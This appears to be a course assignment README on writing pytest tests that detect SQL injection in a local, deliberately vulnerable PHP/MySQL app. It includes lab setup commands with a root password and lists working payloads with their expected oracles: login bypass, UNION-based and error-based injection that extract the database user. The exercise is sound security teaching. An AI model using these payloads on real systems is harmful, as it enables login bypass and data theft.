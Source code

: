 # Second Assignment - SQL Injections

## Instructions
In this assignment, you will build a new test suite that tests the target application for Union-based SQL Injections, similar to the one you built in Assignment 1.

While in Assignment 1 you could use plain Python for your test suite, for this assignment you will use pytest to organize and run your tests steps.

This is very similar to using plain Python: you can create tests as simple Python functions, but the name of the function must always start with "test_". Also, these functions should be in a Python file, which must also have a name that starts with "test_".

If you structure your code like this, you should only need to install pytest (pip install pytest) and run the "pytest" command from the folder that contains these files. Tests will be automatically run.

Notice that you can "assert False" if you want to make the test fail, but you can have implicit success for tests (or you can also specify "assert True")

### Environment Setup
My credentials:
```
$mysql_server = "172.17.0.2"; // or any host on which you deployed it
$mysql_user = "root";
$mysql_pass = "pass"; // The password you set up during installation
```

You can now populate your MySQL instance:
```
sudo docker run --name mysql-container -e MYSQL_ROOT_PASSWORD=pass -p 3006:3306 mysql


mysql -h 172.17.0.2 -u root --password=pass < ./Seed/create-database.sql
mysql -h 172.17.0.2 -u root --password=pass fstt23_assignment < ./Seed/create-users.sql
mysql -h 172.17.0.2 -u root --password=pass fstt23_assignment < ./Seed/create-items.sql
cd Application && php -S localhost:9000
```

### Testing
For each page of the target application, you should design and implement a test step that checks:

- if the page is working correctly (e.g., for login pages, that the login is working correctly)
- if the page is vulnerable to: 
    - Standard SQL injection (additional).
    - Union-based SQL injection.
    - Error-based SQL injection.
    - Boolean Based SQL injection (additional).
    - Time Based SQL injection (additional).

Tests should take into account all possible variants of syntax and insufficient sanitization that could be applied to the page.


### Find{,3}
Functional: $search = Apple
Oracle: Apple

Standard: $search = ' OR 1 LIMIT 0,1 -- - 
Oracle: Apple

Union: $search = ' UNION ALL SELECT USER(), USER() -- - 
Oracle: root

Error: ' AND ExtractValue(0, CONCAT( 0x5c, USER() ) ) -- - 
Oracle: root

### Find{2}
Functional: $search = Apple
Oracle: Apple

Standard: $search = " OR 1 LIMIT 0,1 -- - 
Oracle: Apple

Union: $search = " UNION ALL SELECT USER(), USER() -- - 
Oracle: root

Error: " AND ExtractValue(0, CONCAT( 0x5c, USER() ) ) -- - 
Oracle: root

## General Payloads for Find
Functional: $search = Apple
Oracle: Apple

Standard: $search = {',"} OR 1 LIMIT 0,1 -- - 
Oracle: Apple

Union: $search = {',"} UNION ALL SELECT USER(), USER() -- - 
Oracle: root

Error: {',"} AND ExtractValue(0, CONCAT( 0x5c, USER() ) ) -- - 
Oracle: root

### Search
Functional: $max = 100
Oracle: "Apple" for {,2,4} and "3.00 €" for {3}

Standard: $max = 1 UNION ALL SELECT USER() AS name, USER() AS price -- - 
Oracle: "Apple"

Union: $max = 1 UNION ALL SELECT USER() AS name, USER() AS price -- -
Oracle: root

Error: $max = 1 AND ExtractValue(0, CONCAT( 0x5c, USER() ) ) -- -
Oracle: root

### Login
!! POST REQUESTS !!

Functional: $user=any, $pass=password
Oracle: "Welcome"

Standard: $user=any, $pass=' OR 1 LIMIT 0,1 -- -
Oracle: "Welcome"

Union: $user=any, $pass=' UNION ALL SELECT USER(),USER(),USER(),USER() -- - 
Oracle: root

Error: $user=any, $pass=' AND ExtractValue(0, CONCAT( 0x5c, USER() ) ) -- -
Oracle: root

## Confirmation step
One easy way to confirm that the attack was successful is to retrieve the MySQL version via the VERSION() SQL function, or the user for the current connection, which can be retrieved via the USER() function. Of course, you can use any other value you prefer to confirm the exploit.